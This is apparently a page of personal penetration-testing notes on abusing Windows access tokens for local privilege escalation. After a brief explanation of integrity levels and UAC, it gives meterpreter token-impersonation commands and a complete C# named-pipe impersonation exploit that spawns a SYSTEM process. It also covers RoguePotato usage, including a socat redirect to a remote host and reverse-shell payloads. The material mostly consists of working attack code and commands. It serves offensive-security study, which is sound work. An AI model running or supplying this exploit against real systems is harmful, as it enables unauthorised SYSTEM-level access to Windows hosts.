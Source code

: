 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Access_Tokens
---
```



<span style="font-size: 35px; color:red"><b>Access Tokens</b></span>

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

An access token is created by the kernel upon user authentication and contains important values that are linked to a specific user through the SID.
We are interested in _Integrity Levels_ (Low: services like sandboxes or web browsers, Medium: Regular users, High: Administrators, System: System services) and _Privileges_.

Local administrators receive two access tokens when authenticating. The first (which is used by default) is configured to create processes as medium integrity. When a user selects the "Run as administrator" option for an application, the second elevated token is used instead, and allows the process to run at high integrity. The _User Account Control_ (UAC) mechanism links these two tokens to a single user and creates the consent prompt. A local administrator regulated by UAC is sometimes also called a split-token administrator.
To check privs:

```shell
whoami /priv
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Elevation With SeImpersonatePrivilege (PrintSpoofer)</b></span>

Other similar exploit: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
https://github.com/itm4n/PrintSpoofer <-- USE THIS ONE IF YOU CAN (run <span style="color:red">printspoofer.exe -i -c powershell</span> from a profile that has the SeImpersonationPriv on).


After receiving a meterpreter revshell, you can play with impersonation tokens using the <span style="color:red">incognito</span> module:
```shell
load incognito
help incognito
list_tokens -u
impersonate_token <domain>\\<user>
```
and run <span style="color:red">shell</span> and <span style="color:red">whoami</span> to see if it worked.


This code expects the pipe name to be passed on the command line:
```cs
using System;
using System.Runtime.InteropServices;

namespace PrintSpooferNet
{		
    class Program
    {

		[StructLayout(LayoutKind.Sequential)]
		public struct SID_AND_ATTRIBUTES
		{
		    public IntPtr Sid;
		    public int Attributes;
		}

		public struct TOKEN_USER
		{
		    public SID_AND_ATTRIBUTES User;
		}

		[StructLayout(LayoutKind.Sequential)]
		public struct PROCESS_INFORMATION
		{
		    public IntPtr hProcess;
		    public IntPtr hThread;
		    public int dwProcessId;
		    public int dwThreadId;
		}

		[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
		public struct STARTUPINFO
		{
		    public Int32 cb;
		    public string lpReserved;
		    public string lpDesktop;
		    public string lpTitle;
		    public Int32 dwX;
		    public Int32 dwY;
		    public Int32 dwXSize;
		    public Int32 dwYSize;
		    public Int32 dwXCountChars;
		    public Int32 dwYCountChars;
		    public Int32 dwFillAttribute;
		    public Int32 dwFlags;
		    public Int16 wShowWindow;
		    public Int16 cbReserved2;
			public IntPtr lpReserved2;
		    public IntPtr hStdInput;
		    public IntPtr hStdOutput;
		    public IntPtr hStdError;
		}
		[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
		public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

		
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode, uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize, uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

		[DllImport("kernel32.dll")]
		static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);

		[DllImport("Advapi32.dll")]
		static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

		[DllImport("kernel32.dll")]
		private static extern IntPtr GetCurrentThread();

		[DllImport("advapi32.dll", SetLastError = true)]
		static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool OpenAsSelf, out IntPtr TokenHandle);

		[DllImport("advapi32.dll", SetLastError = true)]
		static extern bool GetTokenInformation(IntPtr TokenHandle, uint TokenInformationClass, IntPtr TokenInformation, int TokenInformationLength, out int ReturnLength);

		[DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
		static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);

		[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
		public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);

        static void Main(string[] args)
        {
            if (args.Length == 0)
            {
                Console.WriteLine("Usage: PrintSpooferNet.exe pipename");
                return;
            }
            string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);

			ConnectNamedPipe(hPipe, IntPtr.Zero);
			ImpersonateNamedPipeClient(hPipe);

			IntPtr hToken;
			OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);

			int TokenInfLength = 0;
			GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);
			IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
			GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);

			TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
			IntPtr pstr = IntPtr.Zero;
			Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
			string sidstr = Marshal.PtrToStringAuto(pstr);
			Console.WriteLine(@"Found sid {0}", sidstr);

			IntPtr hSystemToken = IntPtr.Zero;
			DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);

			PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
			STARTUPINFO si = new STARTUPINFO();
			si.cb = Marshal.SizeOf(si);
			CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);

        }
    }
}
```
You can change the final <span style="color:red">C:\\Windows\\System32\\cmd.exe</span> with whatever you wanna run as high integrity (also a meterpreter shell).


To test it:
```shell
psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
```
From the newly open cmd (leave it hanging):
```shell
PrintSpooferNet.exe \\.\pipe\test
```
And from another cmd.exe (3rd one open):
```shell
echo hello > \\localhost\pipe\test
```

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Juicy Potato + Rotten Potato = Rougue Potato</b></span>

Abusing <span style="color:red">SeImpersonatePrivilege</span>

Redirect traffic flow to 9999:
```shell
sudo socat tcp-listen:135,reuseaddr,fork tcp:<remote_ip>:9999
```

Then start an elevated prompt:
```shell
PSExec64.exe -i -u "nt authority\local service" C:\Privesc\<revshell>.exe
```
From the revshell you just spowned, run the roguepotato exploit to get a second revshell with SYSTEM privs:
```shell
RoguePotato.exe -r <ip> -e "C:\Privesc\<revshell>.exe" -l 9999
```
And you will get a revshell as System.
